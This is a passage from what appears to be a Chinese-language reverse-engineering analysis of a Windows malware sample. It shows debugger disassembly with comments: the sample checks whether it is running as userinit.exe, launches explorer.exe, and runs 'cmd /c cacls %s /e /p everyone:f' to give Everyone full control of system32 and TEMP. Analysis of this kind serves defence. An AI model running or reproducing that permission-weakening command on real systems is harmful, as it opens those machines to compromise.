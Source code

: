   0012FBA8  43 3A 5C 57 49 4E 44 4F 57 53 5C 73 79 73 74 65  C:\WINDOWS\syste
  0012FBB8  6D 33 32 5C 75 73 65 72 69 6E 69 74 2E 65 78 65  m32\userinit.exe

  0040099A  |.  56            push    esi                              ; /BufSize
  0040099B  |.  50            push    eax                              ; |PathBuffer
  0040099C  |.  57            push    edi                              ; |hModule
  0040099D  |.  FF15 34044000 call    dword ptr [<&KERNEL32.GetModuleF>; \GetModuleFileNameA

  0012FAA4  43 3A 5C 44 6F 63 75 6D 65 6E 74 73 20 61 6E 64  C:\Documents and
  0012FAB4  20 53 65 74 74 69 6E 67 73 5C 41 64 6D 69 6E 69   Settings\Admini
  0012FAC4  73 74 72 61 74 6F 72 5C D7 C0 C3 E6 5C 65 58 5C  strator\桌面\eX\
  0012FAD4  31 31 30 36 33 30 34 36 5F 78 65 65 78 2E 65 78  11063046_xeex.ex
  0012FAE4  65 00                                            e.

  004009A9  |.  50            push    eax          ; /s2 = "C:\WINDOWS\system32\userinit.exe"
  004009AA  |.  8D85 E4FAFFFF lea     eax, dword ptr [ebp-51C]         ; |
  004009B0  |.  50            push    eax          ; |s1 = "C:\Documents and Settings\Administrator\",D7,"烂 eX\11063046_xeex.exe"
  004009B1  |.  FF15 F4044000 call    dword ptr [<&MSVCRT._stricmp>]   ; \_stricmp //比较自身是不是 userinit.exe  
  比较自身是不是 userinit.exe，如果是的话，则打开运行 explorer.exe 进程。                  

  004009C3  |.  56            push    esi                              ; /n
  004009C4  |.  8D85 F4FEFFFF lea     eax, dword ptr [ebp-10C]         ; |
  004009CA  |.  57            push    edi                              ; |c
  004009CB  |.  50            push    eax                              ; |s
  004009CC  |.  E8 B50C0000   call    <JMP.&MSVCRT.MEMSET>             ; \memset
  004009D1  |.  83C4 0C       add     esp, 0C
  004009D4  |.  8D85 F4FEFFFF lea     eax, dword ptr [ebp-10C]
  004009DA  |.  56            push    esi                              ; /BufSize
  004009DB  |.  50            push    eax                              ; |Buffer
  004009DC  |.  FF15 2C044000 call    dword ptr [<&KERNEL32.GetWindows>; \GetWindowsDirectoryA
  004009E2  |.  8D85 F4FEFFFF lea     eax, dword ptr [ebp-10C]
  004009E8  |.  68 48274000   push    00402748                         ; /src = "\explorer.exe"
  004009ED  |.  50            push    eax                              ; |dest
  004009EE  |.  E8 DD0C0000   call    <JMP.&MSVCRT.STRCAT>             ; \strcat
  004009F3  |.  59            pop     ecx
  004009F4  |.  8D85 F4FEFFFF lea     eax, dword ptr [ebp-10C]
  004009FA  |.  59            pop     ecx
  004009FB  |.  6A 05         push    5
  004009FD  |.  50            push    eax
  004009FE  |.  FFD3          call    ebx
  00400A00  |.  68 E8030000   push    3E8                              ; /Timeout = 1000. ms
  00400A05  |.  FF15 28044000 call    dword ptr [<&KERNEL32.Sleep>]    ; \Sleep

  然后通过 cacls 将%SystemRoot%\system32\目录和%TEMP%目录的访问权限设置为 everyone 完全控制
  00400A0B  |> \8D85 F0FDFFFF lea     eax, dword ptr [ebp-210]
  00400A11  |.  56            push    esi                              ; /BufSize
  00400A12  |.  50            push    eax                              ; |Buffer
  00400A13  |.  FF15 68044000 call    dword ptr [<&KERNEL32.GetSystemD>; \GetSystemDirectoryA
  00400A19  |.  8D85 F0FDFFFF lea     eax, dword ptr [ebp-210]
  00400A1F  |.  50            push    eax                              ; /<%s>
  00400A20  |.  8D85 ECFCFFFF lea     eax, dword ptr [ebp-314]         ; |
  00400A26  |.  68 24274000   push    00402724                         ; |format = "cmd /c cacls %s /e /p everyone:f"
  00400A2B  |.  50            push    eax                              ; |s
  00400A2C  |.  FF15 F0044000 call    dword ptr [<&MSVCRT.sprintf>]    ; \sprintf
  00400A32  |.  83C4 0C       add     esp, 0C
  00400A35  |.  8D85 ECFCFFFF lea     eax, dword ptr [ebp-314]
  00400A3B  |.  57            push    edi
  00400A3C  |.  50            push    eax
  00400A3D  |.  FFD3          call    ebx
  00400A3F  |.  8D85 F0FDFFFF lea     eax, dword ptr [ebp-210]
  00400A45  |.  50            push    eax                              ; /Buffer
  00400A46  |.  56            push    esi                              ; |BufSize
  00400A47  |.  FF15 24044000 call    dword ptr [<&KERNEL32.GetTempPat>; \GetTempPathA